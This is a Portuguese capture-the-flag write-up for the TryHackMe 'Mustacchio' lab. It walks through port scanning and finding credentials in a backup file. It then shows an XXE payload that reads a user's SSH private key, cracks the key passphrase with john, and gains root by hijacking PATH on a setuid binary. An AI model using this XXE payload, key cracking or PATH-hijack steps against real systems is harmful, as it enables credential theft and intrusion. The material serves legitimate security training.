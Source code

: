 # Mustacchio
https://tryhackme.com/room/mustacchio

## Identificação do alvo e exploração
Fazendo uma varredura de todas as portas no alvo com NMAP

      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      8765/tcp open  ultraseek-http

Com gobuster achei esse diretorio

    /custom/js

Dentro dele tem um arquivo users.bak

```sh
strings users.bak
```

E descobri isso admin:bulldog19

Entrando em http://IP:8765 abre uma area de login que usando as cred de cima é possivel autenticar

Nessa página tem um input que aceita XML, o formato do XML ta disponível em um arquivo também nessa página em /auth/dontforget.bak

Com input que aceita XML é possivel explorar XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

Apos pegar o id_rsa, precisa formatar e atribuir a permissao 600

```sh
chmod 600 id_rsa
```

Antes de tentar conectar com ssh precisa descobrir a passphrase

```sh
cp $(locate ssh2john.py) .
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
```

agora da para rodar

```sh
ssh barry@<IP> -i id_rsa
```
passphrase: urieljames

## Privesc
Na pasta /home/joe existe um arquivo "live_log" com permissão setuid, ou seja, ele pode ser executado com os privilegios do dono do arquivo (no caso o root)

Rodando o comando "strings live_log", é possivel ver que ele usa o comando "tail", com isso é possível escalar privilégio explorando o PATH:

```sh
echo "/bin/bash" > /tmp/tail
chmod 777 /tmp/tail
export PATH=/tmp:$PATH
./live_log
```
